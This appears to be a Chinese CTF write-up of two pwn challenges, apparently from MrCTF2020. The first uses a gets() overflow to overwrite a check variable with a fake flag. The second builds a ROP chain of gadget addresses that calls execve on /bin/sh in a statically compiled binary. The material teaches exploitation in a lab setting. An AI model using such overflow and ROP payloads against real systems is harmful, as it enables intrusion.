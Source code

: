 > 其中`fake_flag`位于`.data`段， `fake_flag = "n0t_r3@11y_f1@g"`

### 解题思路

`gets(&v4)`存在溢出，将`v4`后的`v5`覆盖为`n0t_r3@11y_f1@g`即可通过`check`

### exp
```python
offset = 48
payload = 'A'*offset
payload += 'n0t_r3@11y_f1@g'
sl(payload)
```



## nothing_but_everythin
- 题目描述：
  
    > What could you do with such a pile of rubbish?
- 题目附件：[nothing_but_everythin](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MrCTF2020/pwn/nothing_but_everythin/nothing_but_everythin)
- 考察点：栈溢出、静态编译
- 难度：简单
- 初始分值：500
- 最终分值：465
- 完成人数：15

### 程序分析

第两次`read`存在栈溢出：

```c
undefined8 main(void){
  undefined local_78 [112];
  
  FUN_00411f60(PTR_DAT_006b97a8,0);
  FUN_00411f60(PTR_DAT_006b97a0,0);
  read(0,&DAT_006bc3a0,0x14);
  read(0,local_78,0x300);
  puts(local_78);
  return 0;
}
```

### 解题思路
直接找gadget，构造rop链：

```python
def ropchain():
    from struct import pack
    # Padding goes here
    p = ''
    p += pack('<Q', 0x0000000000400686) # pop rdi ; ret
    p += pack('<Q', 0x00000000006BC3A0) # data /bin/sh
    p += pack('<Q', 0x00000000004100d3) # pop rsi ; ret
    p += pack('<Q', 0x0000000000000000) # data 0
    p += pack('<Q', 0x0000000000449505) # pop rdx ; ret
    p += pack('<Q', 0x0000000000000000) # data 0
    p += pack('<Q', 0x00000000004494ac) # pop rax ; ret
    p += pack('<Q', 0x000000000000003b) # date 0x3b
    p += pack('<Q', 0x000000000040123c) # syscall
    return p
```
